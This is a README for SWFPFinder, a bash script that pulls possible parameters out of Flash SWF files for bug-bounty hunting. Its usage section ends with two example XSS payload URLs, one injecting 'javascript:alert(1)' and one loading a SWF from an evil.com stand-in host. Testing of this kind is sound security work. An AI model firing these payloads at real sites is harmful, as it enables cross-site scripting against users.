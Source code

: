 ### SWFPFinder (beta v.)

SWFPFinder is a simple and open source bash script designed to discovery the potential swf (file) parameters on the webapp analysing the swf file. SWFPFinder use `swfmill` tool, [swfmill](https://github.com/djcsdy/swfmill) is a tool to process Adobe Flash (SWF) files. It can convert SWF from and to an XML dialect called “swfml”, which is closely modeled after the SWF file format.

Install
--

```
$ wget https://raw.githubusercontent.com/m4ll0k/SWFPFinder/master/swfpfinder.sh

or 

$ git clone https://github.com/m4ll0k/SWFPFinder.git swfpfinder
$ cd swfpfinder
```

Support Platforms
--

- MacOSx
- Linux
- Window (Cygwin)

Requirements
--
- [swfmill](https://github.com/djcsdy/swfmill)
   - for linux `apt-get install swfmill`
   - for macos `brew install swfmill`

Usage
--
-  this tool you can use it during bug hunting for find a potential swf parameters..

```shell
$ bash swfpfinder.sh https://hackerone-target.com/hackme.swf

load_external-swf-file
inject-me
blabla
```
- after find potential parameters: 

`https://hackerone-target.com/hackme.swf?inject-me=javascript:alert(1)`

`https://hackerone-target.com/hackme.swf?load_external-swf-file=https://www.evil.com/xss.swf`


